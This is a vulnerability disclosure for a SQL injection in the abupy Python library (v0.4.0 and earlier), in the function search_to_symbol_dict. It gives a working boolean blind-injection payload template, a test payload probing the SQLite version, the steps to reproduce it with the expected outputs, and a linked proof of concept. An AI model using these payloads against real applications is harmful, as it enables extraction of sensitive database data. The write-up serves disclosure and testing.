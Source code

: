 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when ({CODE YOU WANNA EXEC, RETURN TRUE OR FALSE}) then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when (sqlite_version() = '3.31.1') then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when (sqlite_version() = '3.31.1') then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when (sqlite_version() = '3.31.1') then 'usJASNW' else 'usTROVW' end where ''='"))
```
(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the code annotation of the function, It is legal and normal for users and programmers to call this function, proof: https://github.com/bbfamily/abu/blob/master/abupy/MarketBu/ABuSymbol.py -> line: 200 code annotation, so users can easily trigger this vulnerability)

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`  
proved the result is determined by payload  
Of course, you can also fill in other relational expressions here to verify the vulnerability, such as `1 = 1`, `1 != 1`, `substr(sqlite_version(),1,1) = '3'`, `substr(sqlite_version(),2,1) = '.'`

proved sql code execution  

POC: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
